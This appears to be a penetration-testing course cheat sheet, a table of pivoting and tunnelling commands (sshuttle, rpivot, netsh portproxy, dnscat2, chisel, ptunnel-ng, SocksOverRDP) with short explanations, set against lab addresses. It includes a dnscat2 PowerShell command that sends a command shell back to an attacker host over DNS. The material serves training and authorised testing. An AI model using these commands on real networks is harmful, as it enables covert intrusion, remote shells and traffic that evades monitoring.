| `sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0 -v` | Runs sshuttle, connects to the target host, and creates a route to the 172.16.5.0 network so traffic can pass from the attack host to hosts on the internal network (172.16.5.0). |
| `sudo git clone https://github.com/klsecservices/rpivot.git` | Clones the rpivot project GitHub repository. |
| `sudo apt-get install python2.7` | Uses apt-get to install python2.7. |
| `python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0` | Used to run the rpivot server (server.py) on proxy port 9050, server port 9999, and listening on any IP address (0.0.0.0). |
| `scp -r rpivot ubuntu@<IPaddressOfTarget>` | Uses secure copy protocol to transfer an entire directory and all of its contents to a specified target. |
| `python2.7 client.py --server-ip 10.10.14.18 --server-port 9999` | Used to run the rpivot client (client.py) to connect to the specified rpivot server on the appropriate port. |
| `proxychains firefox-esr <IPaddressofTargetWebServer>:80` | Opens Firefox with Proxychains and sends the web request through a SOCKS proxy server to the specified destination web server. |
| `python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>` | Used to run the rpivot client to connect to a web server that is using HTTP-Proxy with NTLM authentication. |
| `netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25` | Windows-based command that uses netsh.exe to configure a portproxy rule called v4tov4 that listens on port 8080 and forwards connections to the destination 172.16.5.25 on port 3389. |
| `netsh.exe interface portproxy show v4tov4` | Windows-based command used to view the configurations of a portproxy rule called v4tov4. |
| `git clone https://github.com/iagox86/dnscat2.git` | Clones the dnscat2 project GitHub repository. |
| `sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache` | Used to start the dnscat2.rb server running on the specified IP address, port (53), and using the domain inlanefreight.local with the no-cache option enabled. |
| `git clone https://github.com/lukebaggett/dnscat2-powershell.git` | Clones the dnscat2-powershell project GitHub repository. |
| `Import-Module dnscat2.ps1` | PowerShell command used to import the dnscat2.ps1 tool. |
| `Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd` | PowerShell command used to connect to a specified dnscat2 server using an IP address, domain name, and preshared secret. The client will send back a shell connection to the server (-Exec cmd). |
| `dnscat2> ?` | Used to list dnscat2 options. |
| `dnscat2> window -i 1` | Used to interact with an established dnscat2 session. |
| `./chisel server -v -p 1234 --socks5` | Used to start a chisel server in verbose mode listening on port 1234 using SOCKS version 5. |
| `./chisel client -v 10.129.202.64:1234 socks` | Used to connect to a chisel server at the specified IP address & port using SOCKS. |
| `git clone https://github.com/utoni/ptunnel-ng.git` | Clones the ptunnel-ng project GitHub repository. |
| `sudo ./autogen.sh` | Used to run the autogen.sh shell script that will build the necessary ptunnel-ng files. |
| `sudo ./ptunnel-ng -r10.129.202.64 -R22` | Used to start the ptunnel-ng server on the specified IP address (-r) and corresponding port (-R22). |
| `sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22` | Used to connect to a specified ptunnel-ng server through local port 2222 (-l2222). |
| `ssh -p2222 -lubuntu 127.0.0.1` | SSH command used to connect to an SSH server through a local port. This can be used to tunnel SSH traffic through an ICMP tunnel. |
| `regsvr32.exe SocksOverRDP-Plugin.dll` | Windows-based command used to register the SocksOverRDP-Plugin.dll. |
| `netstat -antb |findstr 1080` | Windows-based command used to list TCP network connections listening on port 1080. |








